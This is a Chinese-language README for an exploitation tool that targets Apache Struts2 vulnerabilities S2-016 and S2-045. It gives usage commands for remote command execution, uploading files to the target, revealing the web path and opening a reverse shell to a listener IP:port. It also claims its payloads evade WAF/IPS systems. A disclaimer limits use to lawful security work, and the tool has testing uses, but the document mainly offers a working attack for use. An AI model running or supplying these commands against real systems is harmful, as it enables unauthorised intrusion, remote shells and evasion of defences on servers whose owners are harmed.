 # Struts2-tool

此工具用于检测和利用Struts2框架漏洞，目前支持S2-016（适用于Struts 2.0.0 - Struts 2.3.15）和S2-045（适用于Struts 2.3.5 – Struts 2.3.31和 Struts 2.5 – Struts 2.5.10）。这两个漏洞基本上就可以覆盖市面上所有较老的Struts版本了。
本工具在HatBoy/Struts2-Scan项目的基础上进行了改进，消除了bug，增加了一些功能，在此感谢原工具作者。
该工具仅限安全从业者在法律法规允许的范围内使用，违规使用后果自负。 

## 运行环境

Python3.6.X及其以上版本

第三方库: click, requests, bs4

## 支持功能

1，单个url，多个url批量漏洞检测

2，返回网站物理路径

3，基本命令执行功能

4，文件上传功能 （目标为Struts 2.5.x时不支持）

5，反弹shell功能

6，支持携带cookie发包

7，支持配置http/https代理

工具对windows和Linux靶机，Struts 2.3.x和Struts 2.5.x版本均经过测试，除括号标出的特殊情况外，其他情况均可放心使用，在输入命令以及参数的时候注意对特殊字符加转义。本工具的payload作了过waf处理，可以过一些市面上的waf/IPS。

## 使用说明

1，显示使用帮助：

​      python3 struts2_tool.py -h 

2，单个url检测：

​      python3 struts2_tool.py -u \<要检测的url\>

3，多个url检测:  

​      python3 struts2_tool.py -f \<url文件的物理路径\>

4，返回网站物理路径:  

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> --webpath

5，命令执行（目标是windows需要设置GBK编码）:           

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> -e \[-c GBK\]

6，上传文件:           

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> --upfile \<待上传文件的物理路径\> --uppath \<上传目标物理路径\>

7，反弹shell:          

​      python3 struts2_tool.py -u \<要检测的url\> -n \<S2-016\|S2-045\> -r \<监听IP:监听端口\>


